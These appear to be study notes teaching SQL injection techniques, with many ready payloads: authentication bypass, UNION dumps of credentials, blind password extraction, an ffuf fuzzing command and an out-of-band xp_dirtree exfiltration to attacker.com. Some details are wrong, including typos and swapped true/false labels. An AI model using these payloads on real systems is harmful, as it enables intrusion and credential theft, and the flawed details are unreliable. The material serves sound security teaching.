

## The concept of SQL injection

Most modern applications rely on databases on the back-end to store and manage data. These databases store everything from user credentials ans session information to actual web content.

- To provide users with dynamic content, applications construct and execute SQL queries in real-time, and then return query results in HTTP(S) responses.
- The queries often **directly incorporate parameters controlled by end users** in one way another. These can be search terms, filters, form field values, cookies, HTTP headers, and so on.

>[!example]+
> Say, this request:
> 
> ```bash
> https://example.com/library?genre=detective
> ```
> 
> Causes the application to execute this query:
> 
> ```SQL
> SELECT name,author FROM books WHERE genre='detective' AND hidden=0
> ```
> This displays all detective books available to the current user, excluding those marked as hidden.

The root cause of SQL injection (SQLi) vulnerabilities lies in a critical design limitation of SQL itself:

>[!important] SQL can't distinguish between code (instructions) and data (values).

- Both SQL commands and user-supplied parameters exist within the same query string.
- The database interprets the entire query as a single executable unit.
- There's no inherent mechanism to separate commands from user-controlled data.

>The vulnerability arises when an application constructs SQL queries by directly concatenating or interpolating user input values into queries without proper validation. 

This means that, if the application doesn't properly validate user input, you can inject SQL syntax into parameters you control and interfere with query results — whether to disrupt the query and get some interesting information from error messages, or to retrieve data you weren't meant to see. 

>[!example]+
> Suppose a user makes the following request, manipulating the `genre` parameter:
> ```bash
> https://example.com/library?genre=detective'--
> ```
> 
> Causes the application to execute:
> 
> ```SQL
> SELECT name, author FROM books WHERE genre='detective'--' AND hidden=0
> ```
> - The user-controlled URL parameter `genre` is directly concatenated into the SQL query without sufficient validation.
> - The single quote (`'`) closes the string literal, and **escapes the data context**.
> - The double dash (`--`) **comments out the remaining query logic**, leaving the `hidden=0` condition ignored.
> 
> As a result, the query returns **all** detective books in the database, including those marked as hidden. 

### Data vs. code context

The goal of SQL injection is to **escape the data context and enter the code context** to influence the logic or results of the original query in unintended ways.

- **Code context**
	- The structure and logic of the query; the actual SQL syntax, such as keywords (e.g., `SELECT`, `WHERE`, `INSERT`, `UPDATE`, `OR`, etc.), comparison operators (`=`, `>`, `<`), logical operators (`AND`, `OR`, `NOT`), string delimiters (`'`, `"`), and statement terminators (`;`). 
	- This is what users should **never** be able to modify.

- **Data context**
	- Literal values the query operates on, such as search terms, usernames, product IDs, filter criteria, etc. This is the content being searched for, inserted, or compared against. 
	- Values are typically enclosed in quotes or bound to parameters.
	- User input should exist **solely in the data context as literal values**, but not interpreted as executable instructions.

>[!example]+ Escaping the data context
>Consider the following query:
>```SQL
>SELECT * FROM users WHERE username = 'john' AND password = 'passwd123'
>```
>- Here, `'john'` is a string value in the **data context**. 
>- The rest of the query, such as keywords like `SELECT`, `WHERE`, `AND`, are in the **code context**.
>
> Now imagine a user enters `admin'--`. If the application doesn't validate this input properly, the resulting query will look like this:
> ```SQL
> SELECT * FROM users WHERE username = 'admin'--' AND password = 'anything'
 >```
 >- The single quote (`'`) closes the username string, **escaping the data context**. 
 >- Everything after the quote is now interpreted as **code context**.
 >- The comment (`--`) removes the remaining logic (password check) from the query. This also gets rid of the superfluous single quote, **preventing syntax errors**.
 >
 >Now, the password **isn't checked at all**. The query entry returns a database record of the `admin` user, so the application logs the attacker in as `admin`.

### Impact

SQLi is one of the oldest attacks discovered during the early days of SQL databases, and yet it still remains critically dangerous.

Potential impact of successful SQL injection include:

- Sensitive data disclosure
- Authentication bypass
- Data manipulation
- Data destruction
- RCE (Remote Code Execution)
- Privilege escalation (via administrative access to databases)
- Lateral movement (via RCE or DBMS functionality)
## Types of SQL injections

SQL injections can be divided into three main types based on how and where you retrieve or infer the results of the queries:

- **In-band SQLi**
	- The most common type of SQLi; the results of the SQL queries are retrieved via the same communication channel as the one used for the injection (a web page).
	- Easy to detect and exploit.

- **Blind SQLi**
	- The results of the queries are not directly displayed in the application, and therefore has to be inferred from the application behavior.
	- More challenging to exploit.

- **Out-of-band (OOB) SQLi**
	- The results of the queries are retrieved via a different communication channel than the one used for the injection, i.e., out-of-band (e.g., DNS queries).
	- Less common; relies on the database's ability to establish out-of-band connections.



## In-band SQLi

>**In-Band SQL Injection**, also known as **classic** or **first-order SQLi**, occurs when the attacker retrieves the results of the queries using the same communication channel as the one used for the injection.

- In-band SQL injection is the most common and by far the most easy-to-exploit type of SQLi.
- The query results, as well we errors, are directly visible in application responses.  

There are two common approaches to exploiting in-band SQL injection:
- **Error-based SQL injection**
- **Union-based SQL injection**
### Error-based SQLi

>**Error-based SQL injection** involves triggering database errors to extract information about the database structure or contents from error messages returned by the application.

- You deliberately inject special characters or malformed instructions to disrupt the query syntax and invoke errors. 
- From error messages and stack traces, you learn about the query structure and retrieve other relevant information. You then use this to refine your payloads and eliminate syntax errors to perform actions you need.

>[!tip]+
>The structure and content of error messages often reveals the DBMS in use, such as MySQL, PostgreSQL, etc. It's often useful to submit the error message to a search engine or an AI to determine what's running on the server, even if the database name isn't mentioned explicitly.

- To detect error-based SQLi, you would usually start by injecting characters used in SQL syntax, and then observe application responses. 
- For this, your first goal is to escape from the data context and interfere with the code context of the query.
#### The many ways to trigger SQL errors

- Inject a single quote (`'`) or double quote (`"`):

```SQL
id=1'
id=1"
```

- Force the database to cast values of incompatible types (e.g., string to integer):

```SQL
-- - MySQL/Postgres
id=' AND 1=CAST((SELECT database()) AS int)-- -
```

```SQL
-- MSSQL
id=1' AND 1=CONVERT(int, (SELECT @@version))--
```

- Divide by zero:

```SQL
id=1' AND 1/0=1-- -
```

- Refer to non-existent tables or columns:

```SQL
id=1' AND (SELECT FROM nonexistent_table)-- -
```

- Use database-specific functions to throw errors:

```SQL
-- - UPDATEXML()/EXTRACTVALUE(), MySQL
AND UNPDATEXML(1, CONCAT(0x7e, (SELECT user())),1)-- -
```

```SQL
-- - TO_CHAR(1/0), Postgres
AND (SELECT CASE WHEN (some_condition) THEN TO_CHAR(1/0) ELSE '' END FROM DUAL)-- -
```
### Union-based SQL injection

>**Union-based SQL injection** involves using the SQL `UNION` operator to combine the results returned from the original `SELECT` query with results of the injected `SELECT` query.

`UNION`-based attacks are extremely efficient to extract large amounts of data. It gives you direct access to database tables.

- The `UNION` syntax is as follows: 

```SQL
SELECT column1, column2, ... FROM table1 
UNION 
SELECT column1, column2, ... FROM table2
```

>[!note] The `UNION` operator can be used to combine multiple `SELECT` results, not just two.

>[!important]+ Requirements for `UNION`
>- Every `SELECT` statement within `UNION` must have the same number of columns.
>- The corresponding columns must have comparable data types (e.g., if the first statement selects a string value in a 3rd column, the second must select a string value in the 3rd column as well).

Because of the specifics of the `UNION` operator, to successfully retrieve data, you first need to:
- Determine the **number of columns** selected in the first statement.
- Determine **data types** of the selected columns.
#### Determining the number of columns

There are two basic methods you can use to determine the number of columns in the original `SELECT` statement:
- Using the `ORDER BY` method.
- Using the `NULL` method.
##### The `ORDER BY` method

- The [`ORDER BY`](https://www.w3schools.com/sql/sql_orderby.asp) clause is used to sort the results of a query in ascending or descending order by a specified column.

```SQL
SELECT column1, column2, ... FROM table_name ORDER BY sort_expression [ASC | DESC];
```

- To determine the number of columns in the original `SELECT` statement, append the `ORDER BY` clause to it:

```SQL
-- - SELECT column1, column2, column3 FROM table_name WHERE username='admin 
                                                                           ' ORDER BY 1 -- - -
```

- Start from `1`, increment the column index until an error occurs.
- The largest valid value is the number of the selected columns you want to know.

>[!example]+
> 
>```SQL
> ' ORDER BY 1-- - # valid
>```
>```SQL 
>' ORDER BY 2-- - # valid
>```
>```SQL
> ' ORDER BY 3-- - # valid
>```
>```SQL
> ' ORDER BY 4-- - # error
>```
> 
>- The number of selected columns is 3.
##### The `NULL` method

>[!note] The `NULL` data type corresponds to any data type in SQL.

- To determine the number of columns in the `SELECT` statement, union-select a number of `NULL`-typed columns, starting from one. Increment the number until you get a valid query.

>[!example]+
> 
> ```SQL
> ' UNION SELECT NULL-- -           # error
> ```
> ```SQL
> ' UNION SELECT NULL,NULL-- -      # valid
> ```
> ```SQL
> ' UNION SELECT NULL,NULL,NULL-- - # error
> ```
> 
>- The number of columns selected in the original statement is 2.

- Since the `NULL` matches any data type, whether it's a string or integer, the application won't throw any type errors. But it will keep responding with error until the number of `NULL`s in your `UNION`-ed `SELECT` statement is the same as the number of originally selected columns.

>[!important]+ Oracle `SELECT`
> In Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. If you don't yet know the name of the table you're targeting, you can use a built-in table called `dual`. So the injected queries in Oracle would need to look like:
> 
> ```SQL
> ' UNION SELECT NULL FROM DUAL-- -
> ```

>[!tip]+
>Rather than `NULL`, you can also use the sequence number of each column:
>```SQL
>' UNION SELECT 1,2,3,4-- -
>```
#### Determining column data types

>[!note] One of the most desirable data formats for SQL injection is *string*, since you can concatenate and output any values from the database in this field without any type casting errors.

- To determine if there is a string column in the original `SELECT` statement and its position, you can start from choosing a matching number `NULL`-typed columns, and then replacing each `NULL` with a mock string, such as `'a'`, one-by-one. 
- If there's an error (e.g., type conversion error like `Conversion failed when converting the varchar value 'a' to data type int.`), this means that a tested column is not compatible with string data. 
- If the query remains valid, you found a column of a string type.

>[!example]+
> 
> ```SQL
> ' UNION SELECT 'a',NULL,NULL,NULL-- - # error
> ```
> ```SQL
> ' UNION SELECT NULL,'a',NULL,NULL-- - # valid
> ```
> ```SQL
> ' UNION SELECT NULL,'a','a',NULL-- - # error
> ```
> ```SQL
> ' UNION SELECT NULL,'a',NULL,'a'-- - # valid
> ```
> - The string columns in the original statement are the 2nd and 4th.
> - You can use these columns to extract any string values, such as database version or the current database in use:
> ```SQL
> ' UNION SELECT NULL,@@version,NULL,database(),NULL-- -
> ```

>[!example]+ Example: Extracting database information in MySQL
>- Extract database names:
>```SQL
>' UNION SELECT NULL, schema_name FROM information_schema.schemata--
>```
>- Extract table names:
>```SQL
>' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema='webapp_db'--
>```
>- Extract column names:
>```SQL
>' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users'--
>```
>- Extract data from tables:
>```SQL
>' UNION SELECT NULL, CONCAT(username, ':', password) FROM users--
>```

>[!tip]+ Tip: Concatenating string columns into one 
>If you need to retrieve multiple string values, you can use a just single string column and concatenate the values you need:
> 
> ```
> ' UNION SELECT username || '~' || password FROM users-- -
> ```

>[!important]+ Different DBMSs use different concatenation syntax:
> 
> - MySQL:
> 	- Space: `'string1' 'string'`
> 	- `CONCAT()` function: `CONCAT('string1', 'string2')`
> 
> - MSSQL:
> 	- `+`: `'string1' + 'string2'`
> 
> - Oracle:
> 	- `||`:  `'string1' || 'string2'`
> 
> - PostgreSQL:
> 	- `||`:  `'string1' || 'string2'`

### Stacked queries 

Another, less common way to extract large amounts of data from databases is **stacked queries**. 

These are additional queries appended to the original statement, where the semicolon (`;`) acts as a statement terminator:

```SQL
statement_1 ; statement_2
```

>[!example]+
>The attacker injects:
>```SQL
>detective' ; INSERT INTO users (username, password, isadmin) VALUES ('random', 'complexpassword', true)--
>```
>The query transforms to: 
> ```SQL
> SELECT name,author FROM books WHERE genre='detective' ; INSERT INTO users (username, password, isadmin) VALUES ('random', 'complexpassword', true)--
> ```

While `UNION`-based injection only works with `SELECT` statements, stacked queries support **any SQL statements**, such as `INSERT`, `UPDATE`, `DELETE`, `DROP`, `CREATE`, etc. This is what makes them much more dangerous.

Stacked queries are encountered **much more rarely** than `UNION`-based SQLi. So, this method is not as reliable.

>[!warning] Many frameworks block stacked queries. 

>[!note]+ Stacked query support depends on the database API and DBMS combination.
> - DBMSs that support stacked queries:
> 	- MySQL
> 	- MSSQL
> 	- PostgreSQL
> 	- Oracle
> - API + DBMS combinations that support stacked queries:
> 	- PHP + PostgreSQL
> 	- ASP + MSSQL
> - Not supported: PHP + MySQL.
## Blind SQLi

>**Blind SQL Injection**, also known as **inferential** or **second-order** SQL injection, occurs when the web application **does not** directly display the results of injected SQL queries or error messages, but they can be inferred based on application behavior, such as changes in HTTP responses or response delays.

- No actual data is displayed. 
- But even if the query results aren't directly visible, the database still executes the injected SQL. 
- You have to **infer it** the results of the queries from application responses.   

Often, you can construct queries that produce **observable side-effects** based on conditions evaluating to `true` or `false`. With just this information, systematically, you can reconstruct database content character-by-character.

Such observable side-affects can be:
- Changes in page content (boolean-based blind)
- Differences in response time (time-based blind)
- Presence or absence of errors (error-based blind)

>[!warning] Inferential SQLi attacks tend to be slower and more complex to detect and exploit since you don't receive any data directly.

Blind SQLi is conventionally divided into two types, based on how your retrieve data:

- **Boolean-based SQL injection**
	- Using boolean expressions to change the logic of the query and trigger a detectable differences in application responses based on whether the injected condition evaluated to `true` or `false`.

- **Time-based SQL injection**
	- Conditionally triggering time delays depending on the results of the query.
### Boolean-based blind SQLi

>**Boolean-based blind SQL injection**, also known as **inferential** or **second-order SQLi**, exploits detectable differences in application responses when injected SQL conditions evaluate to `true` versus `false` to infer database content. 
>It occurs when an application doesn't directly display the results of the injected SQL queries, but database content can be inferred based on indirect clues such as changes in HTTP response.

- You inject **conditional queries** that force **different application behavior** depending on whether the condition is `true` or `false`.
- No actual data is displayed; all you have is response differences on `true` and `false` you can distinguish.
- Observable indicators may include:
	- Presence or absence of HTML elements (e.g., a specific `<div>`, `<button>`, or whatever)
	- Changes in HTTP headers,
	- Variations in text
	- Different status codes
	- Page length differences, etc. 
- The key is that there should be a reliable way to determine if your condition yielded `true` or `false`. 

The detection and exploitation of a blind SQLi consists of two main steps:
1. Establishing response baseline
2. Exploiting the differences to infer database content
##### Establishing response baseline

Before actually exploiting, the vulnerability, you need to understand how the application behaves when the SQL query returns something and when it doesn't — establish a baseline of application behavior. This can be done with the use of boolean expressions. 

- Expressions that always return `true`:

```SQL
' OR 1 = 1
' OR 0 = 0
' OR 2 = 2
' OR '1' = '1'
' OR true
```

- Expressions that always return `false`:

```SQL
' AND 1 = 2
' AND 1 = 0
' AND '0' = '1'
' AND false
```

A `SELECT` statement (or any other one) will return (or perform an action upon) some results when all its `WHERE` conditions are `true`, and return nothing when the conditions are `false`. 

You observe what it looks like when when the application returns something (e.g., some rows, text, etc.) and when it doesn't (e.g., errors, empty screen, etc.). You establish a dependency between the query result and the application behavior, which can later be used to infer the results of other conditions you inject based on application responses. 
##### Exploiting the differences to infer database content

Even through you only have `true` and `false` in your disposal, you can deduce actual database content — names of databases, tables, columns, then usernames, passwords, keys, or any other information your're trying to retrieve. Some techniques are described below.

- **Length** functions are helpful to determine the length of a string field. You just compare the actual length of the field with what you think it is in a boolean expression until you guess it.

| DBMS       | Syntax                                                                        |
| ---------- | ----------------------------------------------------------------------------- |
| MySQL      | `LENGTH('string')`                                                            |
| MSSQL      | `LEN('string')`<br>`DATALENGTH('string')`                                     |
| PostgreSQL | `LENGTH('string')`<br>`CHAR_LENGTH('string')`<br>`CHARACTER_LENGTH('string')` |
| Oracle     | `LENGTH('string')`<br>`LENGTHB('string')`                                     |

>[!note] All the above examples return `6`.

>[!note]+ MSSQL `LEN()` vs. `DATALENGTH()`
>- [`LEN()`](https://www.w3schools.com/sql/func_sqlserver_len.asp)
>	- Returns the length of string.
>	  Doesn't include trailing spaces when calculating the length of the string. 
>	- Leading spaces are included.
>- [`DATALENGTH()`](https://www.w3schools.com/sql/func_sqlserver_datalength.asp)
>	- Returns the number of types used to represent an expression.
>	- Counts both leading and trailing spaces.

>[!example]+ Inferring the length of the current database name
>```SQL
>' AND LENGTH(database())<10--  # test if the length is less than 10  — true
>```
>```SQL
>' AND LENGTH(database())<5--   # test if the length is less than 5   — false 
>```
>```SQL
>' AND LENGTH(database())-5--   # test length 5                       — true 
>```
>With a sequence of queries similar to the above, you infer that the length of the current database's name is `5`.


>[!tip]+
>Another way to determine a string length is using the `LIKE` operator and character wildcards:
> ```SQL
> ' AND database() LIKE '___'--      # 3 characters — false
> ```
> ```SQL
> ' AND database() LIKE '____'--     # 4 characters — false
> ```
> ```SQL
> ' AND database() LIKE '______'--   # 5 characters — true
> ```

- **Substrings** are commonly used to extract string fields character-by-character. You isolate a character and then compare it against the alphabet, like in brute-force attacks, until you guess it.

| DBMS       | Syntax                      |
| ---------- | --------------------------- |
| MySQL      | `SUBSTRING('string', 4, 1)` |
| MSSQL      | `SUBSTRING('string', 4, 1)` |
| PostgreSQL | `SUBSTRING('string', 4, 1)` |
| Oracle     | `SUBSTR('string', 4, 1)`    |

>[!note] All the above functions return the string `'i'` (the 4th character).


>[!example]+ Inferring the name of the current database
> ```SQL
> ' AND SUBSTRING(database(),1,1)>'m'--  # test if the first character is after 'm' — true
> ```
> ```SQL
> ' AND SUBSTRING(database(),1,1)>'s'--  # test if the first character is after 's' — true
> ```
> ```SQL
> ' AND SUBSTRING(database(),1,1)>'w'--  # test if the first character is after 'w' — false
> ```
> The character is between `s` and `w` in the alphabet.
> ```SQL
> ' AND SUBSTRING(database(),1,1)='w'--  # test if the first character is 'w'       — false
> ```
> ```SQL
> ' AND SUBSTRING(database(),1,1)='v'--  # test if the first character is 'v'       — false
> ```
> ```SQL
> ' AND SUBSTRING(database(),1,1)='u'--  # test if the first character is 'u'       — true
> ```
> The first character is `u`. To find the second, you use `SUBSTRING(database(),2,1)`, for the third — `SUBSTRING(database(),3,1)`, etc.
> 
> This way, character-by-characters, you determine the name of the current database — `users`. 


> [!example]+ Inferring table names
> The `LIKE` operator can also be used to determine string fields:
> ```SQL
> ' AND (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) LIKE 'u%'--
> ```
> ```SQL
> ' AND (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) LIKE 'us%'--
> ```
> ```SQL
> ' AND (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) LIKE 'use%'--
> ```
> ```SQL
> ' AND (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) LIKE 'user%'--
> ```


>[!example]+ Extracting passwords
> 
> ```SQL
> ' AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='5'--
> ```
> ```SQL
> ' AND SUBSTRING((SELECT password FROM users WHERE username='admin'),2,1)='f'--
> ```
> ```SQL
> ' AND SUBSTRING((SELECT password FROM users WHERE username='admin'),3,1)='4'--
> ```


>[!interesting] This method of searching for data is called [binary search](https://en.wikipedia.org/wiki/Binary_search). 

Below are some examples that demonstrate how blind SQLi can be exploited.

> [!example]+ Automating the process
> You can use automated this process with tools like `ffuf`, `wfuzz`, or others, to automatically go through all characters in the password of the target user. 
> For example:
> ```bash
> ffuf -u https://example.com -H "Cookie: TrackingId=VMjTUlZ2HhnVBySo'AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 20, 1) = 'FUZZ; session=<session_id>" -w ./letters.txt
> ```

#### Turning blind SQLi to in-band SQLi through error messages

>[!tip] 
>It might be possible to turn blind SQL injection into an in-band one by inducing the database to output the results of the query inside a visible error message.

For example, you can use the `CAST()` function (used to convert one data type onto another) to achieve this:

```SQL
CAST((SELECT string_column_name FROM table_name) AS int)
```

Most commonly, the data you're trying to read is string data. Attempting to convert this to an incompatible data type, such as integer, may cause the application to display an error such as:

```
ERROR: invalid input syntax for type integer: "Example data"
```

>[!example]+ Example
> Say, you inject the following:
> 
> ```SQL
> AND CAST((SELECT username FROM users LIMIT 1) AS int)-- - 
> ```
> 
> The application returns an error:
> 
> ```
> ERROR: invalid input syntax for type integer: "administrator"
> ```
> 
> To retrieve the password:
> 
> ```SQL
> AND CAST((SELECT password FROM users WHERE username='administrator') AS int)-- - 
> ```
> 
> And you get the data inside an error message:
> 
> ```SQL
> ERROR: invalid input syntax for type integer: "passwd123"
> ```

>[!warning] Blind SQLi is slow and noisy.
> - Extracting single character requires up to 95 HTTP requests (testing ASCII 32-126).
> - 32-character password requires up to 3,040 requests (32 × 95).
> - Large tables with hundreds of rows require tens of thousands of requests.

#### Error-based blind SQL injection

>**Error-based blind SQL injection** conditionally triggers database errors to create observable differences in application responses.

>[!note] This is just a slight variation of a boolean-based SQL injection, but it's still worth mentioning. 

 - In error-based blind SQLi, errors messages **do not contain any data about the query or database content** (as in error-based in-band SQLi). Actually, what the messages say doesn't matter at all. 
 - The **presence or absence of errors** alone serves as an indicator. It creates a detectable difference in responses that can be used to infer if your injected condition evaluated to `true` or `false`.
 - To achieve this, the queries should cause errors only if a certain condition is met. 

For this, you would commonly use an `if`-`then` or a similar database statement, [`CASE`](https://www.w3schools.com/sql/sql_case.asp):

> [!note]+ `CASE` syntax
> ```SQL
> (SELECT
> 	CASE
> 		WHEN <condition> THEN <value_if_true>
> 		ELSE <value_if_false>
> 	END)
> ```

- Test if you can trigger a noticeable error with an always-true condition:

```SQL
(SELECT 
	CASE
		WHEN (1=1) THEN TO_CHAR(1/0) -- - true, triggers error (1/0) 
		ELSE ''
	END)
```

- Make sure there's no error when the condition is false:

```SQL
(SELECT 
	CASE
		WHEN (1=2) THEN TO_CHAR(1/0)
		ELSE ''                      -- - false, no error (empty stsring is selected) 
	END)
```

>[!note] The statements are indented here only for readability. In a real injection, you would write one-liners.

Having established the baseline, you can use this to extract useful information from the database.

>[!example]+ Extracting passwords
> 
> ```SQL
> (SELECT
> 	CASE
> 		WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0)
> 		ELSE ''
> 	END
> FROM users 
> WHERE username='administrator')
> ```
> 
> ```SQL
> AND (SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--
> ```

>[!note] MySQL also supports [`IF`](https://www.w3schools.com/sql/func_mysql_if.asp):
> 
> ```SQL
> IF(<condition>, <value_if_true>, <value_if_false>)
> ```

> [!example]+ Oracle `CASE`
> ```SQL
> (SELECT 
> 	CASE 
> 		WHEN LENGTH(database())=4 THEN TO_CHAR(1/0) 
> 		ELSE '' 
> 	END 
> FROM dual)
> ```
> 
> ```SQL
> (SELECT CASE WHEN LENGTH(database())=4 THEN TO_CHAR(1/0) ELSE '' END FROM dual)
> ```

>[!example]+ MySQL `IF`
> 
> ```SQL
> IF(SUBSTR(password,1,1)='a', 1/0, 1) -- -
> ```

>[!note] Division by zero is not the only way to trigger errors. Referer to the [[#Error-based SQLi]] section.

This technique is a bit more reliable than classic boolean-based SQLi if response content differences are subtle. The binary signal is clear: error or no error. It's also much faster than time-based blind SQLi, which we will discuss in the text section.  
### Time-based blind SQLi

>**Time-based blind SQL injection** exploits the ability of an attacker to **conditionally trigger time delays** in SQL query execution. Whether the condition has evaluated to `true` or `false` can be inferred based on how long the application took to respond.

- There's **no visible differences** in application responses that can be used to infer if the condition is `true` or `false` — classic boolean-based technique fail. 
- But it's possible to conditionally trigger time delays in the injected query. The actual database content can then be inferred based on the time differences in how long it took for a response to come.
- This happens when an application processes SQL queries **synchronously**, therefore delayed execution of an SQL query also delays the HTTP response. 

Each DBMS uses different functions that can be used to cause time delays:

| DBMS           | Function                   | Syntax                                            |
| -------------- | -------------------------- | ------------------------------------------------- |
| **MySQL**      | `SLEEP()`<br>`BENCHMARK()` | `SLEEP(10)`<br>`BENCHMARK(10000000, MD5('test'))` |
| **MSSQL**      | `WAITFOR DELAY`            | `WAITFOR DELAY '0:0:10'`                          |
| **PostgreSQL** | `pg_sleep()`               | `pg_sleep(10)`                                    |
| **Oracle**     | `DBMS_LOCK.SLEEP()`        | `DBMS_LOCK.SLEEP(10)`                             |

>[!note] All the above functions cause a 10-second delays.

To exploit time-based SQLi, you would first try causing a time delay unconditionally:

```SQL
'; SELECT SLEEP(10) -- -
```

If it works, you can then construct conditional queries, where time delay is used as an indicator:

```SQL
-- true condition
'; IF (1=2) SELECT SLEEP(10) -- - 
```

```SQL
-- false condition
'; IF (1=1) SELECT SLEEP(10) -- - 
```


>[!warning]+ Avoid using too short delay duration
>If the delay is too short (1-2 seconds), you're likely to encounter many false positives because of network latency. The optimal time is around 5-10 seconds for remote targets, and 3-5 for local networks. 

>[!warning] Time-based blind SQLi is **extremely slow** but succeeds where other methods fail.

>[!note] Attack duration
>- Extracting single 32-character password with binary search: ~160 requests (~800 seconds with 5-second delay)
## Out-of-band

>**Out-of-band (OOB) SQL injection** retrieves data through secondary communication channels external to the main HTTP request/response exchange with the target application.
>This technique relies on the database server making an out-of-band request (e.g., HTTP or DNS) to send the query result to the attacker. 

Common OOB channels include:
- DNS lookups
- HTTP/HTTPS requests
- SMB connections
- FTP/TFTP transfers
- LDAP queries
- Email messages

Say, the following query causes an MSSQL database to make a DNS query to an attacker-controlled domain server with a subdomain that contains responses of database queries:

```SQL
'; EXEC xp_dirtree '//'+@@version+'.attacker.com/share'--
```

## Second-order SQLi

>**Second-order** SQL injection, also known as **stored SQL injection**, occurs when an application first safely stores the user input but later retrieves it and uses it in an unsafe way.

- This type of SQL injection is much harder to detect, since there's no immediate impact from the injected queries.
- To find such vulnerabilities, you would need to clearly understand how data flows withing the application. Where it enters the database, and then where it's used later. It's much easier to work with secondary vulnerabilities in white-box testing.
## ORM injection

- SQL injection targets applications that directly construct SQL queries using string concatenation, direct variable interpolation, or similar, without properly validating user input. 
- **ORM injection** is essentially an SQL injection performed against Object-Relational Mapping frameworks. 
- The fundamental difference is the abstraction layer: traditional SQL injection attacks raw SQL queries written by developers, and ORM injection targets the SQL that ORM frameworks generate behind the scenes from object-oriented code.
## Real-world cases

- [`ResumeLooters`](https://thehackernews.com/2024/02/hackers-exploit-job-boards-in-apac.html) (November 2023 - December 2023)
- [`MSSQL Elevation of Privilege Vulnerability`](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1636) (2021, `CVE-2021-1636`).
- [`Fortnight`](https://thehackernews.com/2019/01/fortnite-account-hacked.html) (2019)
- [`Cisco Prime Licence Manager SQL Injection Vulnerability`](https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-20181128-plm-sql-inject.html) (2018, `CVE-2018-15441`)
- [`ChostShell`](https://security.research.ucf.edu/Documents/News/Hackers%20Breach%2053%20Universities%20and%20Dump%20Thousands%20of%20Personal%20Records%20Online.pdf) (2021)
## References and further reading

To do: add information from the `sqlinjection.net` website

- [`sqlinjection`](https://www.sqlinjection.net)

- [`SQL injection (SQLi) — snyk`](https://learn.snyk.io/lesson/sql-injection/?ecosystem=python)
- [`SQL injection — Microsoft Learn`](https://learn.microsoft.com/en-us/sql/relational-databases/security/sql-injection?view=sql-server-ver17)
- [`SQL injection — Wikipedia`](https://en.wikipedia.org/wiki/SQL_injection)
- [`SQL Injection — OWASP`](https://owasp.org/www-community/attacks/SQL_Injection)
- [`Testing for SQL Injection — OWASP WSTG`](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
- [`SQL injection — PortSwigger Web Security Academy`](https://portswigger.net/web-security/sql-injection)

 - [`SQL Injection: Examples, Real Life Attacks & 9 Defensive Measures — radware`](https://www.radware.com/cyberpedia/application-security/sql-injection/)

- [`SQL Injection Wiki — NetSPI`](https://sqlwiki.netspi.com/)
- [`SQL Injection Knowledge Base — websec.ca`](https://websec.ca/kb/sql_injection)


- [`Testing for ORM Injection — OWASP`](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.7-Testing_for_ORM_Injection)
- [`SQL Injection in the Age of ORM: Risks, Mitigations, and Best Practices — afine`](https://afine.com/sql-injection-in-the-age-of-orm-risks-mitigations-and-best-practices/)


